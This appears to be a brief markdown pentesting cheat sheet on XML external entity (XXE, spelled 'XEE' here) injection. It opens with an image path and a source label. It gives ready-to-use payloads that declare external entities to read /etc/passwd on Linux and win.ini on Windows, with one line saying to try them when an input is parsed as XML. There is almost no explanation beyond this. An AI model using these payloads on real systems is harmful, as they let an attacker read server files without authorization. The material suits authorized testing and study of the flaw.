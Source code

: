 # XEE
if you have input and its parsing xml it might be vulnerable to XXE
If something is vulnerable to XEE try
```
# This is there#  <!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
# This is also there# <data>&example;</data>
```
On windows
```
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
```
